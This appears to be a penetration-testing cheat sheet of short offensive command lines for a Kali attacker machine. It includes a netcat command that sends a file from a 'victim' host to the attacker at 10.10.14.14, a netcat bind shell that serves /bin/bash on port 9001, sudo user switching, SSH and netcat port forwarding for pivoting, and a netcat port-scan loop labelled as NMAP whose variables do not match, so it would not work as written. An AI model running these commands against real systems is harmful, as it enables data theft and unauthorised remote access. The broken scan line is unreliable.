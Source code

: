 ``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); font-size: 14px; margin-top: 43px; overflow: auto; padding: 20px;"}
Get a File From Victim to Kali

on Kali: nc -l -p 8001 > filefoldername

on victim: nc -w 5 10.10.14.14 8001 < /usr/local/bin/filename 
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); font-size: 14px; margin-top: 43px; overflow: auto; padding: 20px;"}
When anything can only be run as a specific user:

sudo -u UserName /bin/bash             /works when you see this in sudo -l      
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); color: #333333; font-size: 14px; margin-top: 43px; overflow: auto; padding: 20px;"}
Port Scanning with NMAP:

for ip in $(seq 1 65535); do nc -nvzw1 VICTIM_IP $p 2>&1; done | grep open
```

<div>

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); color: #333333; font-size: 14px; margin-top: 43px; overflow: auto; padding: 20px;"}
Dynamic Port Forwarding 

nano /etc/proxychains.conf

#add the below line 
socks5 127.0.0.1 1080 

On Terminal:

ssh -D 1080 root@10.10.10.10       /Need Password

proxychains netdiscover -r 10.10.10.10/24
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); margin-top: 43px; overflow: auto; padding: 20px;"}
Local Port Forwarding using ssh 

ssh -L 1080:127.0.0.1:80 root@10.10.10.10
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); margin-top: 43px; overflow: auto; padding: 20px;"}
Remote Port Forwarding using SSH 

ssh -R 1080:127.0.0.1:80 root@10.10.10.10
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); margin-top: 43px; overflow: auto; padding: 20px;"}
Port Forwarding using Netcat

nc -l -p $localport -c "nc $remotehost $remoteport"

netcat -nvlp 9001       /Listen on port 9001

netcat -l -p 9001 -e /bin/bash  /Create a bash shell on port 9001

netcat -L KALI_IP:80 -p 8902            /Forward local port 9002 to remote port 80

netcat -L kali_IP:80 -p 9002 -x        /Port Forward Hex dump
```
